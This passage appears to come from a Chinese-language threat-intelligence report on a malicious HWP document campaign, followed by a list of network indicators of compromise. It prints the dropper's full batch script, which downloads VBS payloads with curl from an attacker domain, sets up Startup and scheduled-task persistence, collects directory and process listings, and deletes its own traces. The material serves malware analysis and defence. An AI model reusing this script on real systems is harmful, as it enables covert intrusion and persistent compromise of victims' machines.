```
```

与过去的活动类似，他们继续使用 HWP(韩文文字处理器)文档:

```
The Burden of the Unintended.hwp
Created 2022-02-24
```

执行时，HWP 文档会执行一个类似于下面的批处理文件:

```
kill /im OneDriveStandaloneUpdater.exe /f 2taskkill /im OneDriveStandaloneUpdater.exe /f 3curl -o "%appdata%\microsoft\windows\start menu\programs\startup\OneNote.vbs" https://dusieme.com/hwp/d.php?na=colegg1.gif 4curl -o "%appdata%\microsoft\windows\colegg2.vbs" https://dusieme.com/hwp/d.php?na=colegg2.gif 5curl -o "%appdata%\microsoft\windows\colegg3.vbs" https://dusieme.com/hwp/d.php?na=colegg3.gif 6curl -o "%appdata%\microsoft\windows\1.xml" https://dusieme.com/hwp/d.php?na=sched.gif 7schtasks /create /tn IdleSetting /xml %appdata%\microsoft\windows\1.xml /f >>"%appdata%\microsoft\windows\1.log" 8dir "%appdata%\microsoft\windows\*.*">>"%appdata%\microsoft\windows\1.log" 9dir "C:\Program Files (x86)\*.*">>"%appdata%\microsoft\windows\1.log" 10dir "C:\Program Files\*.*">>"%appdata%\microsoft\windows\1.log" 11tasklist >>"%appdata%\microsoft\windows\1.log" 12C:\Windows\System32\wscript.exe /b "%appdata%\microsoft\windows\colegg3.vbs" 13del "%temp%\~DF9B1C729B001D998E.tmp" 14del "%temp%\urlmon.dll" 15del "%temp%\OneDriveStandaloneUpdater.exe" 16taskkill /im hwp.exe /f 17taskkill /im hwp.exe /f 18copy "%temp%\The Burden of the Unintended.tmp" "%userprofile%\Downloads\The Burden of the Unintended.hwp" /y 19"%userprofile%\Downloads\The Burden of the Unintended.hwp" 20del "%temp%\The Burden of the Unintended.tmp" 21del "%~f0"
```

# IOCs

网络:

```
souibi.com
dusieme.com
eislesf.live
ielsems.com
ilijw.live
siekis.com
soekfes.live
sqiesbob.com
gonamod.com
beastmodser.club
nuclearpolicy101.org (compromised)
frebough.com
hodbeast.com
newspeers.com
newspeers.us
visitnewsworld.xyz
docsaccess.xyz
resepmo.com
retmodul.com
worldinfocontact.club
wrldinfocontact.club
secmets.live
preheds.shop
```
